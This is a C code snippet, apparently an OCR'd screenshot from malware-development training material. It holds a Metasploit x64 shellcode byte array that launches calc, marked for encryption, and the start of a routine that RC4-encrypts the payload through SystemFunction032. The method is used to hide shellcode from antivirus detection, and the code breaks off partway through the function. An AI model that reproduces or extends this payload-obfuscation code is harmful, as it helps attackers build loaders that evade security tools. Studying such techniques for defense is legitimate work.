 
```
#include <Windows.h>#include <stdio.h>// x64 calc metasploit (to encrypt)
unsigned char Payload[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
	0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
	0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
	0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
	0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
	0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};



// The following code is from (RC4 payload encryption - basic module)

// This is what SystemFunction032 function take as a parameter
typedef struct
{
	DWORD	Length;
	DWORD	MaximumLength;
	PVOID	Buffer;

} USTRING;


// Defining how does the function look - more on this structure in the api hashing part
typedef NTSTATUS(NTAPI* fnSystemFunction032)(
	struct USTRING* Data,
	struct USTRING* Key
	);


BOOL Rc4EncryptionViSystemFunc032(IN PBYTE pRc4Key, IN PBYTE pPayloadData, IN DWORD dwRc4KeySize, IN DWORD sPayloadSize) {

	// The return of SystemFunction032
	NTSTATUS	STATUS = NULL;

	// Making 2 USTRING variables, 1 passed as key and one passed as the block of data to encrypt/decrypt
	USTRING		Key  = { .Buffer = pRc4Key, 		.Length = dwRc4KeySize,		.MaximumLength = dwRc4KeySize },
		        Data = { .Buffer = pPayloadData, 	.Length = sPayloadSize,		.MaximumLength = sPayloadSize };


```